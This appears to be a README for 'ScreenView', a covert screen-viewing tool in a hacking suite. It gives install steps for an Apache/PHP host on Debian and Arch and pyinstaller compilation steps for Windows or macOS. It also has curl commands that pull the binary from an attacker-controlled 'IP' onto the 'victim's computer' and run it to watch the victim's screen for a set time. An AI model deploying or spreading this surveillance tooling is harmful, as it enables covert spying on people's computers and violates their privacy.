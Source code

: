 # ScreenView
The Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```
### Arch
```
$ sudo pacman -S git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```

## Usage
### ScreenView.py
This module can run on Windows and MacOS. To configure the payload go to line 32 and replace IP with your IP.
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (time in minutes to view the victim's screen)
```

## Compilation
This module must be compiled on a Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Windows computer, Wine environment or MacOS computer.
$ pip install pyinstaller
$ pyinstaller --onefile --icon icon.ico ScreenView.py
